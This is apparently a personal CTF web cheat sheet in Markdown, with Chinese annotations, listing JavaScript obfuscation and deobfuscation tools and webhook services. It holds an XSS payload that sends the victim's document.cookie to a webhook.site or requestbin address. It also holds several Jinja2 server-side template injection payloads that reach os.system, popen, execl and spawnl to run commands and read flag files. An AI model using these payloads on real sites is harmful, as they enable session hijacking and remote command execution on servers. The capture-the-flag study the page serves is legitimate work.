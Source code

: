 ```yaml
---
title: Web Cheat Sheet
tags: [Tools, CTF, Web]

category: "Tools/CTF"
---
```


# Web Cheat Sheet
## Online Tools
| Fuck                             | Beautifier                       |
| -------------------------------- | -------------------------------- |
| [jsfuck](http://www.jsfuck.com/) | [JSNice](http://www.jsnice.org/) |
|[jjencode](https://utf-8.jp/public/jjencode.html)|[JS 反混淆器](https://beautifier.io/): 可以反混淆或解密JS的檔案|
|[aaencode](https://utf-8.jp/public/aaencode.html)|[JS 壓縮+加密+混淆+美化](https://js.wfuapp.com/)|
|[Esolang List](https://esolangs.org/wiki/Language_list)|[JS Fuck Decode](https://www.53lu.com/tool/jsfuckdecode/)|
||[aadecode](https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html)|

## Cheat-Sheet
{% raw %}
* [XSS-CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    利用XSS把session打到webhook上: 
    ```javascript?
    window.location=<requestbin.com>/?a+document.cookie
    // or
    fetch("https://webhook.site/699a6563-c9b5-4ad7-adaa-e189c5f78194", { method: 'GET', headers: { 'Cookie': document.cookie } })
    ```
* [All-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%19Injection/README.md)
* SSTI Payload: 記得找==os.\_wrap_close==
    ```
    {{().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id')}}
    {{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", "./flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']("cat /flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", file.lower())}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['spawnl']('P_WAIT', "/bin/cat", "cat", file.lower())}}
    ```
{% endraw %}
## Others
* wasm $\to$ c: [wabt](https://github.com/WebAssembly/wabt)
    ```bash!
    # 按照說明build完後進到./build
    $ ./wasm2c {wasm file path} -o {output c file path}
    ```
* Webhook
    [Webhook.site](https://webhook.site/)
    [Beeceptor](https://beeceptor.com/)
    [Ngrok](https://ngrok.com/)